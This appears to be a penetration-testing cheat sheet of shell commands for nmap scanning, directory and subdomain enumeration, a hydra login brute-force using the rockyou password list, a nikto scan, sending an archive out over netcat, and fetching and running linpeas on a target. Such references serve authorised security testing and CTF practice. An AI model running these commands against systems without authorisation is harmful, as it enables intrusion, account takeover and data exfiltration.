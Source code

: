 ## Network scan with`nmap`:
```bash
nmap -v -sV -O -A --top-ports 5000 -oN nmap_output.txt <host>
```

## Directory enumeration with `dirb`:
```bash
dirb http://<host>/
```

## Subdomains enumeration with `ffuf`:
```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://<host> -H "Host: FUZZ.<host>" -mc 200 -fs 15949 -o ffuf_output.json -of json
```

## Login brute-force with `hyra`:
```bash
sudo hydra -v -V -d -l admin -P /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt -o hydra_output.txt http-post-form://example.com/login"&username=^USER^&password=^PASS^:F=Bad"
```

## Web app scan with `nikto`:
```bash
nikto -h http://example.com -p 8080 -o nikto_output.txt
```

## Send directory with `netcat`
### Sender:
```bash
tar -czf directory.tar.gz ./directory
cat directory.tar.gz | nc <host> 1234
```
### Receiver:
```bash
nc -l -p 1234 > directory.tar.gz
```

## Download and serve `linpeas`
### Sender:
```bash
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
sudo python3 -m http.server 8080
```
### Receiver
```bash
cd /tmp
wget <host>:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh -a > ./output.txt
less -r ./output.txt
```
